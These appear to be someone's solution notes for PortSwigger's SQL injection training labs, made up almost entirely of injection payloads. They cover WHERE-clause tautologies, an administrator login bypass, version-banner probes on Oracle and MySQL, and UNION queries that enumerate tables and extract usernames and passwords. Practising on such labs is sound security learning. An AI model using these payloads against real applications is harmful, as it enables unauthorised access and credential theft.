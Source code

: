 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2#
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
